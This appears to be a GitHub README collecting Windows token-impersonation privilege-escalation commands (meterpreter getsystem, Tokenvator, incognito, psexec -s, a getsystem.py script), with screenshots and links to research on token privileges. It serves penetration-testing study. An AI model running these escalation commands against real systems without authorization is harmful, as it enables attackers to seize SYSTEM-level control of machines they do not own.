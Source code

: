 ## tokenx_privEsc
with metasploit <br>
`meterpreter> getsystem`
<br><br>

without metasploit <br>
`C:\temp> Tokenvator.exe getsystem cmd.exe` <br>
![test1](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv1.jpg) <br><br>

`C:\temp> incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe` <br>
![test2](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv2.jpg) <br><br>


`C:\temp> psexec -s -i cmd.exe` <br>
![test4](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv4.jpg) <br><br>


`C:\temp> python getsystem.py` <br>
![test3](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv3.jpg) <br><br>


### more about tokens privilege <br>
### Resources:
https://blog.xpnsec.com/becoming-system/ <br>
https://github.com/hatRiot/token-priv <br>
https://powersploit.readthedocs.io/en/latest/Privesc/Get-System/ <br>
https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/ <br>
https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/ <br>
https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation <br>
https://heynowyouseeme.blogspot.com/2019/08/the-useage-of-9-permissions-for-windows.html <br>
https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation <br>
https://github.com/sailay1996/NP_impersonate <br>
https://github.com/Cn33liz/EasySystem <br>
https://labs.mwrinfosecurity.com/blog/incognito-v2-0-released/ <br>
https://decoder.cloud/2019/03/06/windows-named-pipes-impersonation/ <br>
https://0x00-0x00.github.io/research/2018/10/17/Windows-API-and-Impersonation-Part1.html <br>
https://0x00-0x00.github.io/research/2018/10/21/Windows-API-And-Impersonation-Part-2.html <br>
https://pentestlab.blog/tag/token-impersonation/ <br>
https://github.com/0xbadjuju/Tokenvator/ <br>
https://decoder.cloud/2019/07/04/creating-windows-access-tokens/ <br>
https://github.com/decoder-it/whoami-priv <br>
https://decoder.cloud/2018/02/02/getting-system/ <br>
https://gist.githubusercontent.com/realoriginal/19c2c9c3b14ec65c203dd796ad44e5c5/raw/b4900e95506d8dc4d3b415ad9b27c6cc73544d94/np_impersonate.c <br>
